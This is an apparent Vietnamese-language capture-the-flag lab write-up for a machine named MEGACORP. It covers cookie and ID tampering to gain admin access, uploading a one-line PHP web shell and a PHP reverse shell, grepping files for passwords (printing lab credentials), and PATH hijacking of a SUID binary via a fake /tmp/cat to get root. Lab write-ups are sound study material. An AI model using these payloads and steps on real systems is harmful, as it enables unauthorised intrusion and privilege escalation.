## Task 1


> proxy
## Task 2


Lần này thì mở burpsuite lên xem các request


> /cdn-cgi/login
## Task 3


> Cookie
## Task 4


Trang web cho đăng nhập bằng guest nên chúng ta vào thử

Phần Account có kèm ID giờ sửa thành 1 xem sao

Chúng ta tìm được Access ID của admin
> 34322
## Task 5


Trong Burpsuite cũng đã có thông tin này
> /uploads
## Task 6


Để xem được trang upload này chúng ta cần quyền admin nhưng role này lấy từ đâu? chúng ta mở thử dev tool

Phần Cookies này có vẻ đáng ngờ, chỉnh lại role thành admin và accessID đã biết

Server kiểm tra quyền dựa vào thông tin được đưa lên từ phía client. Tiếp tục bây giờ chúng ta có một form upload nên thử upload một php reverse shell xem sao
```php
<?php system($_GET["cmd"]); ?>
```

Chúng ta có được web shell nhưng có vẻ file sẽ bị server xoá ngay sau đó

Sử dụng php reverse shell bên trong /usr/share/webshells/php/php-reverse-shell.php


Chúng ta có được access đầu tiên bên trong máy chủ. Do đây là user www-data nên tìm thư mục /var/www/html/cdn-cgi/login xem có gì hay không
```bash
cat * | grep -i passw*
```

Tìm được 1 account `admin / MEGACORP_4dm1n!!`


Tìm được thêm 1 account khác nữa `robert / M3g4C0rpUs3r!`

> db.php
## Task 7


> find
## Task 8

Tìm hiểu thử user robert có sử dụng được không

Đổi qua user này xem thử có thêm thông tin nào liên quan đến bugtracker không?
```bash
su - robert
```

Ngon lành! User này thuộc group bugtracker. Giờ tìm các file thuộc group này xem sao
```bash
find / -group bugtracker 2>/dev/null
```
Chúng ta tìm được một file

Để xem file này là file gì?
```bash
ls -la /usr/bin/bugtracker && file /usr/bin/bugtracker
```


Đây là một file thực thi với suid root được bật

> root
### User Flag
Trong thư mục của robert cũng tìm thấy user.txt

## Task 9


> Set Owner User ID
## Task 10


Chúng ta thử chạy tool này xem nó đang thực thi cái gì


Chúng ta sẽ sử dụng kỹ thuật **PATH hijacking** — khai thác việc binary SUID gọi 1 lệnh con (`cat`) mà không chỉ định full path, khiến shell phải tra cứu theo `$PATH`. Nếu chúng ta chèn được 1 thư mục **đứng trước** vị trí thật của `cat` trong `$PATH` và đặt 1 file giả tên `cat` ở đó, binary SUID sẽ chạy file giả của chúng ta với quyền root (vì SUID).

Tạo một file giả
```
echo '/bin/sh' > /tmp/cat
chmod +x /tmp/cat
export PATH=/tmp:$PATH
```
Kiểm tra lại 

`/tmp` của chúng ta đã được nối vào $PATH
### Root Flag

Chúng ta tìm được root.txt tại /root nhưng đừng dùng `cat` để đọc vì lệnh đã bị chúng ta injection rồi
